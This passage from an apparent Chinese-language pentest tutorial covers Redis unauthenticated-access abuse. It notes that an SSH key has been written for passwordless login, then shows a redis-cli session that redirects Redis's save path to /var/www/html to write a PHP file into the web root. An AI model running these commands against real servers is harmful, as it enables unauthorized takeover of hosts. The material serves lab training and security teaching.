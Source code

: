 ![img](../../../.vuepress/public/img/1628515307073-5d1f3553-587e-476a-9556-beb3c9eb54bf-20220415143203556.png)

- ✅如上则为成功写入SSH密钥文件，攻击机可无需密码远程连接目标主机SSH



### WebShell

当SSH不允许远程登录时，也可以通过写入 Web目录控制目标主机

```php
┌──(root💀kali)-[~/.ssh]
└─# redis-cli -h 192.168.0.126 -p 6379
192.168.0.126:6379> config set dir /var/www/html
OK
192.168.0.126:6379> config set dbfilename xxx.php
OK
192.168.0.126:6379> set web "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.0.126:6379> save
OK
```

![img](../../../.vuepress/public/img/1628515979062-1d027d69-3100-4eb9-9496-43b0b15a7768-20220415143203717.png)
